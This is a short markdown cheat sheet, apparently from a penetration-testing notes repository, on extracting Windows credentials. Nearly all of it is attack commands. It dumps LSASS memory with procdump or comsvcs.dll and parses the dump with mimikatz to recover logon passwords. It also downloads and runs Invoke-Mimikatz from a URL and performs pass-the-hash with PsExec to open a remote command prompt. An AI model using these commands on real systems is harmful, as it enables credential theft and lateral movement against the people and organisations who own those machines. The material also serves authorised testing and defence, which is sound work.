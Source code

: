 ```yaml
---
layout: default
title: Windows Credential Extraction
tags:
    - certificates private keys
    - credentials
    - in memory
    - kerberos tickets
    - local security authority subsystem service
    - LSASS
    - mimikatz
    - pass-the-hash
    - passwords
    - procdump
    - windows
---
```

# Windows Credential Extraction
## Mimikatz
### Offline
Dump LSASS
```powershell
procdump.exe -ma lsass.exe <output path>  # use -r flag to avoid reading lsass by dumping a clone
.\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 624 <output path> full  # uses native comsvcs.dll
```
- Alternatively can use task manager (Processes > lsass.exe > Create Dump File)

Extract Passwords
```shell
sekurlsa::minidump <dump path>
sekurlsa::logonpasswords
```

### On Target Machine
#### PowerShell Version ([Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1))
In-memory
```powershell
Invoke-WebRequest -UseBasicParsing <url> -Verbose
```

Save to disk
```powershell
Invoke-WebRequest -UseBasicParsing <url> -OutFile Invoke-Mimikatz.ps1 -Verbose
```

```powershell
Get-Help Invoke-Mimikatz
.\Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -ComputerName
```

#### Extracting Passwords
```shell
privilege:debug
sekurlsa::logonPasswords
```

#### Pass-the-Hash
```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash>  # Hash from previous password extraction
PsExec.exe \\<domain> cmd.exe  # Spawn cmd prompt on given domain
```